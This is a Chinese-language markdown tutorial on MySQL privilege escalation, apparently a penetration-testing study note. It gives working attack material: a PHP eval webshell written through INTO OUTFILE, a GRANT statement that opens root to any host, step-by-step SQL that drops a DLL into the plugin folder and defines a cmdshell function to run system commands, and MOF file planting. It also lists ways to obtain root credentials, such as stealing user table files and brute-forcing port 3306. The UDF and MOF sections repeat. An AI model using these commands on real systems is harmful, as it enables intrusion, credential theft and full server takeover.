

# MySQL权限

## mysql提权

#### udf提权原理和大致步骤:

```
通过webshell上传一个动态链接库文件，当mysql版本>5.1时候，该动态链接库文件必须存放在mysql/lib/plugin/目录下才能创建自定义函数，该目录是默认不存在的，需要我们自行创建，然后我们再通过mysql创建一个自定义函数，该自定义函数需要和动态链接库中的函数对应，然后通过自定义函数执行对应的系统命令.
如果mysql版本低于5.1，该动态链接库文件在03服务器中需要将该文件存放到c:/windows/system32/目录下
该动态链接库文件在windows2000下放置于c:\winnt\system32
```

##### 条件

```
获取的mysql账户需要有对mysql的插入删除以及创建自定义函数权限，一般以root账号为佳
secure_file_prive为空
Mysql版本大于5.1版本udf.dll文件必须放置于MYSQL安装目录下的lib\plugin文件夹下。
Mysql版本小于5.1版本。udf.dll文件在Windows2003下放置于c:\windows\system32，在windows2000下放置于c:\winnt\system32。
```
#### mof提权原理和大致步骤:
```
mof 提权利用了 c:/windows/system32/wbem/mof/ 目录下的 nullevt.mof 文件，MOF文件每五秒就会执行一次，而且是系统权限.
如果我们通过使用into dumpfile 将自己构造的nullevt.mof文件写入/wbem/mof目录下，然后系统每隔五秒就会执行一次我们上传的MOF文件。MOF文件当中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权
```

##### 条件

```
要求:
1.windows 2003及以下版本
2.mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
3.secure-file-priv参数为空
4.root权限，知道账户和密码
```

### 前提条件:拥有root账户和密码

### 有哪些方式可以获得一个root权限的账户?

```
已经获取一个低权限的webshell，可以读取某些文件文件
	a、翻找网站根目录下的文件夹,看是否可以读取到root账户的密码）通过下载位于mysql/data/目录下的user文件,然后导入数据库读取
	c、可以考虑3306端口爆破
	d、如果说某个地方存在sql注入,并且该mysql默认连接的是root账户那是不是也相当于获取了一个root
```

#### 拥有webshell之后如何获取mysql密码?

```
执行select @@datadir 得到mysql数据存放路径，找到该路径下的mysql/user表文件(有三个)，下载到本地
```


**1、本地搭建环境创建一个数据库**


**2、将下载到的user表对应的三个数据文件放到本地创建的数据库对应的目录下面**


直接查询得到账户和密码(密码可以使用cmd5进行解密)


mysql开启外连

成功开启外联会多一个%(表示指出任意地址连接)

```
Grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;
```


### mysql写文件的条件

**into outfile() 写马操作**

```
1、必须知道网站的绝对路径
2、用户必须是root权限且secure-file-priv!=null 
3、没有特殊函数对' 进行转义或过滤addslashes()、magic_qutos_gpc
```

```
select '<?php eval($_POST[1]);?>' into outfile "c:/inetput/wwwroot/shell.php"
```

**mysql 5.5之后默认secure_file_prive=null 只能通过更改配置文件的方式进行**

```
当 secure_file_priv 的值为 NULL ，表示 mysqld 不允许导入|导出，此时无法提权
当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权,shell也无法写入到网站根目录
当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权
```

### udf提权

#### 原理和大致步骤:

```
通过webshell上传一个动态链接库文件，当mysql版本>5.1时候，该动态链接库文件必须存放在mysql/lib/plugin/目录下才能创建自定义函数，该目录是默认不存在的，需要我们自行创建，然后我们再通过mysql创建一个自定义函数，该自定义函数需要和动态链接库中的函数对应，然后通过自定义函数执行对应的系统命令.
如果mysql版本低于5.1，在03服务器中需要将该文件存放到c:/windows/system32/目录下
在windows2000下放置于c:\winnt\system32
```

#### 条件

```
需要root权限以及对应的账户和密码
secure_file_prive为空
```

##### 1、定义一个变量

```
user mysql;
set @a=concat('',0xcontent)
```

##### 2、创建一个表

```
create table if not EXISTS Ghost(data LONGBLOB);
```

##### 3、将变量的数据通过更新的方式插入到该表中(也可以直接插入16进制的数)

```
insert into Ghost values("");update Ghost set data = @a;
```

##### 4、将表中的的数据以二进制的方式写入到C:\\phpStudy\\MySQL\\lib\\plugin\xx.dll下

```
DUMPFILE 表示以二进制写入数据
select data from mysql.Ghost into DUMPFILE 'C:\\phpStudy\\MySQL\\lib\\plugin\\2.dll';
```

##### 5、创建一个命令执行函数(该函数和xx.dll文件中的函数对应)

```
这里类似从2.dll中调用cmdshell这个自定义函数
CREATE FUNCTION cmdshell RETURNS STRING SONAME '2.dll';
```

##### 6、通过命令执行函数执行对应的命令

```
select cmdshell('net user');
```

##### 保存数据，以记事本打开该文件





#### mysql 提权大马的使用(使用的也是udf提权)

```
通过获取的webshell上传大马进行提权
```


### mof提权

```
mof 提权利用了 c:/windows/system32/wbem/mof/ 目录下的 nullevt.mof 文件，MOF文件每五秒就会执行一次，而且是系统权限.
如果我们通过使用into outfile 将自己构造的nullevt.mof文件写入/wbem/mof目录下，然后系统每隔五秒就会执行一次我们上传的MOF。MOF当中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权
```

条件

```
要求:
1.windows 03及以下版本
2.mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
3.secure-file-priv参数不为null
4.root权限，知道账户和密码
```


```
select load_file("C:/tools/phpstudy/WWW/nullevt.mof") into dumpfile "C:/WINDOWS/system32/wbem/mof/nullevt.mof"
```


### 反弹提权

#### mysql反弹shell提权(和udf本质是一样的)

```
（1）通过网站无法获取webshell
（2）Webshell无法执行命令
（3）有phpmyadmin和root账号，无法查询或者无法获取网站的真实路径

1.必须是一个root权限
2.能写入相对应的plugin目录
3.—secure-file-priv 这个参数的值不能为NULL
```

**反弹到对应的vps的ip和端口即可**


#### php大马反弹提权


